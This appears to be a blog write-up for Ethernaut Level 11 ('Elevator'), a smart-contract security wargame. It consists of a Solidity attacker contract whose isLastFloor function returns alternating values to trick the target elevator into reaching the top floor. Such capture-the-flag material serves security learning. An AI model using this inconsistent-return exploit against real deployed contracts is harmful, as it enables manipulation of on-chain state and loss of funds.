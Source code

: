 +++
title = 'Ethernaut Level 11 - Elevator'
date = 2024-04-11 02:00:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'I can tell you whatever I want'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

interface Elevator {
    function goTo(uint256 _floor) external ;
}

contract Win{
   // Implements the Building interface, but returns false and then true
    Elevator target;
    constructor(address _addr) {
        target = Elevator(_addr);
    }

    function win() public  {
        target.goTo(0);
    }

    bool current = false;
    function isLastFloor(uint256 floorNumber) public returns ( bool )  {
        bool result = current ;
        current = !current;
        return result ;
    }
}
```